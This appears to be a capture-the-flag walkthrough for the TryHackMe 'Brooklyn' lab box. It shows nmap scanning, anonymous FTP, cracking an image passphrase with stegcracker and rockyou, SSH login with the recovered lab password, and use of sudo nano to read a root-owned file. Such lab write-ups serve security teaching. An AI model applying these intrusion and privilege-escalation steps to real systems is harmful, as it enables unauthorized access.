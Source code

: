 ```yaml
---
title: TryHackMe - brooklyn
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, ftp, ssh, http, stenography, SUID]
---
```


# Brooklyn

This room is aimed for beginner level hackers but anyone can try to hack this box.  
There are two main intended ways to root the box.  


# Tasks
- Read the User and root flag.  

# nmap

## ip = `10.10.36.221`

## Command 
```sh

 nmap -sV -sC -A -v 10.10.36.221 |tee nmap.txt
```
## Results
```sh
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r-- 1 0 0
119 May 17 2020 note_to_jake.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.8.172.59
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| 256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_ 256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site does not have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# ftp_21
Has `anonymous` log in allowed and has a text file in it.  
 ![[Pasted image 20241028190143.png]]
 
## Details
![[Pasted image 20241028190158.png]]

Two users  
- `Jake` = has a weak password  
- `holt` =Looks like he has some privileges   

# http_80

## To Do list
- visit he site
- View the source code
- visit robots.txt
- run gobuster

The site has an image and the source code tells us something to do with stenography.  
**![[Pasted image 20241028190218.png]]

Download the image.  
Use the following command to crack the image passphrase.  
```sh
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
```
![[Pasted image 20241028190340.png]]

From This we get  
![[Pasted image 20241028190400.png]]

- user = `holt`
- password = `fluffydog12@ninenine`

# ssh_22

## Details

- users = `jake` and `holt`
- port 22 open
- Password for `holt` = `fluffydog12@ninenine`


Lets try ssh to holt using the following info

## ssh login
```sh
	ssh holt@10.10.36.221	
	#password = fluffydog12@ninenine
```
![[Pasted image 20241028190428.png]]

# Privilege Escalation

## To Do List
- sudo -l
- cat /etc/crontab
![[Pasted image 20241028190450.png]]
## sudo -l
We get that we can run `/bin/nano` with root privileges without a password.  
I will try to read the root flag since i have the flag name format from user .txt.  
```sh
 	sudo /bin/nano /root/root.txt
 ```
![[Pasted image 20241028190519.png]]
 